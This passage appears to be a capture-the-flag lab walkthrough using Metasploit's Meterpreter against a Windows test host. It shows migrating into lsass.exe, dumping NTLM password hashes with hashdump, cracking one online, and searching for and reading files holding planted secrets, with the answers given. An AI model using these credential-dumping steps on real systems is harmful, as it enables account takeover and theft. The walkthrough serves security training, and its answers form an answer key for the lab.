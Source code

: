Process List

\============

PID PPID Name Arch Session User Path

\--- ---- ---- ---- ------- ---- ----

776 648 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe

meterpreter > migrate 776

\[\*] Migrating from 564 to 776...

\[\*] Migration completed successfully.

meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::

ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::

jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::

lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::

erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::

ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:c6c85041ee383915bd541ce40b508ff0:::

1. What is the cleartext password of the jchambers user?

Use an online hash checker like crackstation.net.

* Trustno1

1. Where is the "secrets.txt" file located? (Full path of the file)

meterpreter > search -f secrets.txt

ound 1 result...

\=================

Path Size (bytes) Modified (UTC)

\---- ------------ --------------

c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt 35 2021-07-30 08:44:27 +0100

1. What is the Twitter password revealed in the "secrets.txt" file?

meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"

My Twitter password is KDSvbsw3849!

1. Where is the "realsecret.txt" file located? (Full path of the file)

meterpreter > search -f realsecret.txt

Found 1 result...

\=================

Path Size (bytes) Modified (UTC)

\---- ------------ --------------

c:\inetpub\wwwroot\realsecret.txt 34 2021-07-30 09:30:24 +0100

1. What is the real secret?

meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"

The Flash is the fastest man alive
